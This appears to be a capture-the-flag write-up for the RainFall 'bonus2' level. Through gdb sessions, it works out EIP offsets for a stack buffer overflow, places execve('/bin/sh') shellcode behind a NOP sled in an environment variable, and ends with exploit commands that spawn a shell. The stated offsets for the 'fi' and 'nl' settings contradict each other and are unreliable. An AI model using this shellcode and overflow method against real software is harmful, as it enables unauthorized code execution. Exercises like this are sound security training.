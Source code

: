 First we want to know how the buffer is write in this program with the default LANG:

bonus2@RainFall:~$ export LANG="en"
bonus2@RainFall:~$ gdb ./bonus2 
(gdb) run $(python -c 'print "A" * 60') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 60') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
Program received signal SIGSEGV, Segmentation fault.
0x08006241 in ?? ()
(gdb) i r
eax            0x4f	79
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xbffff580	-1073744512
esp            0xbffff530	0xbffff530
ebp            0x39614138	0x39614138
esi            0xbffff5cc	-1073744436
edi            0xbffff57c	-1073744516
eip            0x8006241	0x8006241			--> We look at the eip, we don t see any pattern... 
eflags         0x210286	[ PF SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51

We tryed to put 0x08006241 in the https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/
But nothing...

bonus2@RainFall:~$ export LANG="fi"
bonus2@RainFall:~$ gdb ./bonus2 
(gdb) run $(python -c 'print "A" * 60') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 60') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
																	   ----
																	our pattern	

Program received signal SIGSEGV, Segmentation fault.
0x41366141 in ?? ()
(gdb) i r
eax            0x5b	91
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xbffff580	-1073744512
esp            0xbffff530	0xbffff530
ebp            0x35614134	0x35614134
esi            0xbffff5cc	-1073744436
edi            0xbffff57c	-1073744516
eip            0x41366141	0x41366141		--> 41 = A, 36 = 6, 61 = a, 41 = A (A6aA   --> reverse this = Aa6A) : We have a pattern
eflags         0x210286	[ PF SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51

We have a padding of 18 for LANG="fi" (Calculated with https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator).
But you can calcute by hand :
a0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
<--------------->|
	17 bytes	 18eme byte



OK find the same this for the other : LANG="nl" 

bonus2@RainFall:~$ gdb ./bonus2 
(gdb) run $(python -c 'print "A" * 60') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/bonus2/bonus2 $(python -c 'print "A" * 60') Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab
																	        ----
																			our pattern
Program received signal SIGSEGV, Segmentation fault.
0x38614137 in ?? ()
(gdb) i r
eax            0x56	86
ecx            0xffffffff	-1
edx            0xb7fd28b8	-1208145736
ebx            0xbffff580	-1073744512
esp            0xbffff530	0xbffff530
ebp            0x61413661	0x61413661
esi            0xbffff5cc	-1073744436
edi            0xbffff57c	-1073744516
eip            0x38614137	0x38614137			--> 38 = 8 , 61 = a, 41 = A, 37 = 7 (8aA7 --> in reverse = 7Aa8) : We have a pattern
eflags         0x210286	[ PF SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51

We have a padding of 18 for LANG="nl" (Calculated with https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator).

Now like in the bonus0, we are going to put our shellcode in the environnement variable SHELLCODEINJECTION.
We need to find where this environnement variable is in the stack :

export SHELLCODEINJECTION=$(python -c 'print "\x90"*128 + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')

(gdb) b main
Breakpoint 1 at 0x804852f
(gdb) 
(gdb) run
Starting program: /home/user/bonus2/bonus2 
Breakpoint 1, 0x0804852f in main ()
(gdb) (gdb) x/s *((char **)environ+1)
Undefined command: "".  Try "help".
(gdb) x/s *((char **)environ+1)
0xbffff877:	 "TERM=xterm-256color"
(gdb) x/s *((char **)environ)
0xbffff867:	 "SHELL=/bin/bash"
(gdb) x/30s *((char **)environ)
0xbffff867:	 "SHELL=/bin/bash"
0xbffff877:	 "TERM=xterm-256color"
0xbffff88b:	 "SSH_CLIENT=192.168.56.1 50140 4242"
0xbffff8ae:	 "SSH_TTY=/dev/pts/0"
0xbffff8c1:	 "USER=bonus2"
0xbffff8cd:	 "LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arj=01;31"...
0xbffff995:	 ":*.taz=01;31:*.lzh=01;31:*.lzma=01;31:*.tlz=01;31:*.txz=01;31:*.zip=01;31:*.z=01;31:*.Z=01;31:*.dz=01;31:*.gz=01;31:*.lz=01;31:*.xz=01;31:*.bz2=01;31:*.bz=01;31:*.tbz=01;31:*.tbz2=01;31:*.tz=01;31:*.d"...
0xbffffa5d:	 "eb=01;31:*.rpm=01;31:*.jar=01;31:*.war=01;31:*.ear=01;31:*.sar=01;31:*.rar=01;31:*.ace=01;31:*.zoo=01;31:*.cpio=01;31:*.7z=01;31:*.rz=01;31:*.jpg=01;35:*.jpeg=01;35:*.gif=01;35:*.bmp=01;35:*.pbm=01;35"...
0xbffffb25:	 ":*.pgm=01;35:*.ppm=01;35:*.tga=01;35:*.xbm=01;35:*.xpm=01;35:*.tif=01;35:*.tiff=01;35:*.png=01;35:*.svg=01;35:*.svgz=01;35:*.mng=01;35:*.pcx=01;35:*.mov=01;35:*.mpg=01;35:*.mpeg=01;35:*.m2v=01;35:*.mk"...
0xbffffbed:	 "v=01;35:*.webm=01;35:*.ogm=01;35:*.mp4=01;35:*.m4v=01;35:*.mp4v=01;35:*.vob=01;35:*.qt=01;35:*.nuv=01;35:*.wmv=01;35:*.asf=01;35:*.rm=01;35:*.rmvb=01;35:*.flc=01;35:*.avi=01;35:*.fli=01;35:*.flv=01;35"...
0xbffffcb5:	 ":*.gl=01;35:*.dl=01;35:*.xcf=01;35:*.xwd=01;35:*.yuv=01;35:*.cgm=01;35:*.emf=01;35:*.axv=01;35:*.anx=01;35:*.ogv=01;35:*.ogx=01;35:*.aac=00;36:*.au=00;36:*.flac=00;36:*.mid=00;36:*.midi=00;36:*.mka=00"...
0xbffffd7d:	 ";36:*.mp3=00;36:*.mpc=00;36:*.ogg=00;36:*.ra=00;36:*.wav=00;36:*.axa=00;36:*.oga=00;36:*.spx=00;36:*.xspf=00;36:"
0xbffffdee:	 "COLUMNS=134"
0xbffffdfa:	 "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games"
0xbffffe47:	 "MAIL=/var/mail/bonus2"
0xbffffe5d:	 "_=/usr/bin/gdb"
0xbffffe6c:	 "PWD=/home/user/bonus2"
0xbffffe82:	 "LANG=fi"
0xbffffe8a:	 "LINES=32"
0xbffffe93:	 										--> our shellcode address	"SHELLCODEINJECTION=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300\231Ph//shh/bin\211\343PS\211\341\260\v\315\200"
0xbfffff3f:	 "HOME=/home/user/bonus2"
---Type <return> to continue, or q <return> to quit---
0xbfffff56:	 "SHLVL=1"
0xbfffff5e:	 "LOGNAME=bonus2"
0xbfffff6d:	 "SSH_CONNECTION=192.168.56.1 50140 192.168.56.3 4242"
0xbfffffa1:	 "LESSOPEN=| /usr/bin/lesspipe %s"
0xbfffffc1:	 "LESSCLOSE=/usr/bin/lesspipe %s %s"
0xbfffffe3:	 "/home/user/bonus2/bonus2"
0xbffffffc:	 ""
0xbffffffd:	 ""
0xbffffffe:	 ""


0xbffffe93 in little endian = \x93\xfe\xff\xbf

Now we have our two offset for nl (18) and fi (23)
So we can overwrite the return address of the main function with the address of the shellcode + 18 or 23.
We just have to put 40 bytes or more for the first argument, and adjust the second argument depending on the LANG variable.

./bonus2 $(python -c 'print "A" * 60') $(python -c 'print "B" * 18 + "\x93\xfe\xff\xbf"')		--> fi
./bonus2 $(python -c 'print "A" * 60') $(python -c 'print "B" * 23 + "\x93\xfe\xff\xbf"')		--> nl